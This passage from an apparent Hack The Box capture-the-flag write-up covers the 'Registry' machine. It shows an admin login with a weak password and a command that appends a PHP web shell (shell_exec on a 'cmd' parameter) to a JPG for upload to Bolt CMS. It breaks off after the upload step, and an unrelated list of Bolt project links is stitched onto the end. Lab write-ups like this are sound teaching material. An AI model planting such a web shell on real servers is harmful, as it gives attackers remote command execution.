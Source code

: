 The password of the admin account was… strawberry 🙂 I used those credentials to log in:

<div>
<center><img src="/images/registry_htb_writeup/image-32.png"></center>
</div>

## Pivoting to www-data

I found [this vulnerability](https://www.hacksecproject.com/?p=293) online. Basically, an attacker can upload an image and then change its extension to .php and the code will get executed. I crafted the image using the following command:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry# echo '<?php echo shell_exec($_GET["cmd"]); ?>' >> ./yakuhito.jpg
root@fury-battlestation:~/htb/blog/registry#

{% endhighlight %}

I uploaded my file by visiting the following URL:

{% highlight bash %}
https://registry.htb/bolt/bolt/files

{% endhighlight %}


[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md